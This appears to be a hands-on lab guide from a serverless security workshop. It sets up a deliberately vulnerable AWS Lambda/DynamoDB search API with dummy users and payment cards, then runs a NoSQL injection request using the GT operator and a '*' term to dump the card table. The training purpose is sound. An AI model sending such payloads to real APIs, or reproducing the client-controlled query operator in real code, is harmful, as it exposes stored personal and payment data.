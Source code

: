 # DynamoDB Injection

This attack/payload has been documented [here](https://medium.com/appsecengineer/dynamodb-injection-1db99c2454ac) article.

On reading, you'll see that its a NoSQL Injection attack that's predicated on using the `gt` operator. One of the main reasons that this attack is made possible, is because of badly configured IAM privileges

**Note:** If you have not setup your aws cli follow [AWS-CLI-Configuration](aws-configure/README.md) under the `Setup` section*


* Step 1: In your image, navigate over to `/root/labs/Serverless-Workshop/`

```commandline
cd /root/labs/Serverless-Workshop/
```

* Step 2: Run `pip3 install pipenv`

```commandline
pip3 install pipenv
```

* Step 3: `pipenv shell`

```commandline
pipenv shell
``` 

```commandline
pipenv install boto3
``` 

```commandline
pipenv install faker
``` 

```commandline
pipenv install huepy
``` 

* Step 4: In your image, navigate over to `/root/labs/Serverless-Workshop/DynamoDB-Injection`

```commandline
cd /root/labs/Serverless-Workshop/DynamoDB-Injection
```

* Step 5: Run `sls plugin install -n serverless-python-requirements`

```commandline
sls plugin install -n serverless-python-requirements
```

* Wait for instructor to explain the contents of the lab

* Step 6: Let's look at the contents of the `serverless.yml` [here](https://github.com/we45/Serverless-Workshop/blob/master/DynamoDB-Injection/serverless.yml)

* Step 7: Deploy the function with the command `sls deploy`

```commandline
sls deploy
```

* Wait for the function to deploy completely 


* Step 8: In your image, navigate over to `/root/labs/Serverless-Workshop/DynamoDB-Injection/ops`

```commandline
cd /root/labs/Serverless-Workshop/DynamoDB-Injection/ops
```

* Step 9: Create dummy users `python create_dummies.py users we45-sls-users`

```commandline
python create_dummies.py users we45-sls-users
```

* Step 10: Create dummy payment cards `python create_dummies.py cards we45-sls-payments`

```commandline
python create_dummies.py cards we45-sls-payments
```


* Step 11: Let's now run a genuine search against the database with this command

```commandline

http POST https://xxxx.execute-api.us-east-1.amazonaws.com/api/search db=we45-sls-users search_term=Mark search_operator=EQ search_field=first_name

```

* Step 12: Now let's run the exploit

```commandline

http POST https://xxxx.execute-api.us-east-1.amazonaws.com/api/search db=we45-sls-payments search_term="*" search_operator=GT search_field=payment-card

```

### Teardown

* Step 13: In your image, navigate over to `/root/labs/Serverless-Workshop/DynamoDB-Injection`

```commandline
cd /root/labs/Serverless-Workshop/DynamoDB-Injection
```

* Step 14: Run `sls remove` to remove stack

```commandline
sls remove --force
```

* Step 15: In your image, navigate over to `/root/labs/Serverless-Workshop/`

```commandline
cd /root/labs/Serverless-Workshop/
```

* Step 16: Deactivate `pipenv` using `deactivate` command

```commandline
deactivate
```

```commandline
exit
```

